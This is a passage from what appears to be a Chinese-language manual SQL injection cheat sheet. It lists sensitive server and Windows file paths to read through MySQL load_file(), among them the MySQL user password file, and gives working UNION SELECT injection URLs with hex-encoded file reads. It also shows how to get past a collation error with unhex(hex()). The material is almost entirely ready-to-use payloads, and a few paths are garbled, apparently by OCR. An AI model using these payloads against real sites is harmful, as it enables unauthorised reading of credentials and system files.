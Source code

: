 17.  `/etc/my.cnf` MYSQL的配置文件
18.  `/etc/redhat-release` 红帽子的系统版本
19.  `C:\mysql\data\mysql\user.MYD` 存在MYSQL系统中的用户密码
20.  `/etc/sysconfig/network-scripts/ifcfg-eth0` 查看IP.
21.  `/usr/local/app/php5 b/php.ini` //PHP相关设置
22.  `/usr/local/app/apache2/conf/extra tpd-vhosts.conf` //虚拟网站设置
23.  `C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini`
24.  `c:\windows\my.ini`
25.  `c:\boot.ini`

网站常用配置文件

```
config.inc.php、config.php。
```

`load_file()`时要用`replace(load_file(HEX)，char(60),char(32))`

注：

```
Char(60)表示 <
Char（32）表示 空格
```

手工注射时出现的问题：

当注射后页面显示：

```
Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation 'UNION'
```

如：

```
/instrument.php?ID=13 and 1=2 union select 1,load_file(0x433A5C626F6F742E696E69),3,4,user()
```

这是由于前后编码不一致造成的，

解决方法：在参数前加上 `unhex(hex(参数))`就可以了。上面的URL就可以改为：

```
/instrument.php?ID=13 and 1=2 union select 1,unhex(hex(load_file(0x433A5C626F6F742E696E69))),3,4,unhex(hex(user()))
```